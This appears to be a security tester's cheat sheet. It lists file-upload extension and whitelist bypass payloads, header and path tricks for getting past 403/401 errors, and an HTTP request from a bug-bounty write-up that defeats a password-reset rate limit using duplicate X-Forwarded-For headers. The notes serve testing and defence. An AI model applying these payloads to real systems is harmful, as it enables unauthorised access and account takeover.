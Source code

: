 ***

Tricks bypass
- Some regex might be bypassed with `%0a` -> `\n`
Blacklisting Bypass
- PHP 
```
.phtm
.phtml
.phps
.pht
.php[2-5]
.shtml
.phar
```
- ASP
```
.asp
.aspx
.cer
.asa
```
- jsp
```
.jsp
.jspx
.jsw
.jsv
.jspf
```
- ColdFusion
```
.cfm
.cfml
.cfc
.dbm
```
- Using random capitalization
```
.pHp
.pHP5
.PhAr
```

**Whitelisting bypass**
```
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html
```

---
### Tips on bypassing 403 and 401 errors

Here's a list of tips on how to bypass 403 Forbidden and 401 Unauthorized errors:

1. **By adding headers:** X-Originating-IP, X-Remote-IP, X-Client-IP, X-Forwarded-For etc. Sometimes companies whitelist the IP for those who can access sensitive data. These header take IP address as a value and let you access the resource if the supplied IP matches with their whitelisted ones.
2. **With unicode chars:** Try inserting unicode characters to bypass the defenses. Try e.g. ½
3. **By overriding, overwriting URL with headers:** If GET /admin gives you 403 Forbidden, try to GET /accessible (any accessible endpoint) and add any of these HTTP headers:
	- X-Original-URL: /admin
	- X-Override-URL: /admin
	- X-Rewrite-URL: /admin
4. **Try different payloads:** if GET /admin gives you 403 Forbidden, try accessing:
	- /accessible/..;/admin
	- /.;/admin
	- /admin;/
	- /admin/~
	- /./admin/./
	- /admin?param
	- /%2e/admin
	- /admin#
5. **Method switching:** Change the method from GET to POST, and see if you get something
6. **Via IP, Vhost:** Access the site via its IP or Vhost to get the forbidden content.
7. **Fuzzing:** By brute forcing (fuzzing) files or directories further 
---
### Account Takeover Via Rate-Limit Bypass
In a private bug bounty program, when a password reset was initiated, users were required to enter a `six-digit numeric code` sent to their email for verification.

To prevent `brute forece` attacks, the application implemented `rate-limit` protection, restricting the number of requests users could make within a specific time frame. If this limit was surpassed, the system issued a `429 Too Many Requests` error message.

However, the rate limit protection was bypassed by admin two `X-Forwarded-For: IP` headers.
```http
POST /reset HTTP/2
Host: example.com
X-Forwarded-For: 1.1.1.1
X-Forwarded-For: 2.2.2.2
```
By replacing the IP address in the second `X-Forwarded-For` header, it came possible to bypass the `rate-limit` and try multiple code until the correct one was found.

Exploiting this vulnerability allowed for the unauthorized takeover of any account within the application.